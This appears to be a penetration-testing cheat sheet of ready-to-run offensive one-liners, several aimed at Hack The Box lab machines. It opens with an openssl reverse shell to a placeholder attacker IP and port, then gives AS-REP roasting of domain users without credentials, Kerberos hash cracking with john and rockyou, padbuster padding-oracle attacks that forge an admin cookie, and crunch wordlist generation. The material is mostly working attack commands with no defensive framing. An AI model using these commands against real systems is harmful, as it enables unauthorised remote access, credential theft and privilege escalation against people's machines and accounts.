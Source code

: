 ## openssl reverse shell 
```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s
```

## generate passwd hash with openssl
```sh
openssl passwd -1 -salt rh0x01 password123
```

## check ASREPRoast for all domain users (without credentials)
```bash
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

## john crack krb5asrep hash
```bash
john --format:krb5asrep alfresco.kerb --wordlist=/usr/share/wordlists/rockyou.txt
```

## decrypt cookie with padbuster
```bash
padbuster http://docker.hackthebox.eu:30956/profile.php fpHSDPAvUpGGyRtXuqOS9DsQupZ6mbO1f0oD5/p7XWTfEMhtyCj0rg== 8 --cookie "iknowmag1k=fpHSDPAvUpGGyRtXuqOS9DsQupZ6mbO1f0oD5/p7XWTfEMhtyCj0rg==;PHPSESSID=o376o30lb3aieccf3gi6uj4247"

```
## encrypt cookie with padbuster
```bash
padbuster http://docker.hackthebox.eu:30956/profile.php fpHSDPAvUpGGyRtXuqOS9DsQupZ6mbO1f0oD5/p7XWTfEMhtyCj0rg== 8 --cookie "iknowmag1k=fpHSDPAvUpGGyRtXuqOS9DsQupZ6mbO1f0oD5/p7XWTfEMhtyCj0rg==;PHPSESSID=o376o30lb3aieccf3gi6uj4247" -plaintext '{"user":"a1a1","role":"admin"}'
```

## generate password wordlist with crunch
```bash
crunch 13 13 -t bev,%%@@^1995 -o wordlist.txt
# 13 13 - min max length
# bev - start's with
# @ will insert lower case characters
# , will insert upper case characters
# % will insert numbers
# ^ will insert symbols
```

